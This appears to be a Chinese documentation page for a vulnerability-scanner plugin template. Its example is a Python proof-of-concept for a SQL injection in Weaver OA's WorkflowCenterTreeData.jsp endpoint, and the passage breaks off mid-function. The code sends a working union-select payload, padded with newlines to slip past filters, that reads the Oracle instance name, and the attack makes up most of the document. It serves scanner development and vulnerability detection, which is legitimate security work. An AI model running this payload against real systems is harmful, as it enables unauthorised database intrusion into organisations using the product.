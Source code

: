 ## 插件模板

以最新的`泛微OA`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile


class VulnerabilityInfo(object):
    def __init__(self, Medusa):
        self.info = {}
        self.info['number'] = "0"  # 如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['createDate'] = "2020-10-13"  # 插件编辑时间
        self.info['disclosure'] = '2020-10-13'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "Weaver_WorkflowCenterTreeDataInterfaceInjectionVulnerability"  # 插件名称
        self.info['name'] = '泛微OA_WorkflowCenterTreeData接口注入漏洞'  # 漏洞名称
        self.info['affects'] = "泛微OA"  # 漏洞组件
        self.info['desc_content'] = "泛微OA_WorkflowCenterTreeData接口注入漏洞"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['suggest'] = "尽快升级最新系统"  # 修复建议
        self.info['version'] = "xxx版本-xxx版本"  # 这边填漏洞影响的版本
        self.info['details'] = Medusa  # 结果


def medusa(Url, RandomAgent, ProxyIp):
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = "/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333"
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Content-Type': 'application/x-www-form-urlencoded',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
        }

        s = requests.session()
        resp = s.post(payload_url,
                      data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                                                                             'v$instance order by (((1'},
                      headers=headers, timeout=6, verify=False)
        con = resp.text
        code = resp.status_code
        if code == 200 and con.find('''"draggable":''') != -1 and con.find(
                '''"checked":''') != -1 and con.find('''"id":''') != -1 and con.find(
            '''"text":''') != -1:
            Medusa = "{}存在泛微OA_WorkflowCenterTreeData接口注入漏洞\r\n 验证数据:\r\nUrl:{}\r\nPayload:{}\r\n".format(url,
                                                                                                          payload_url,
```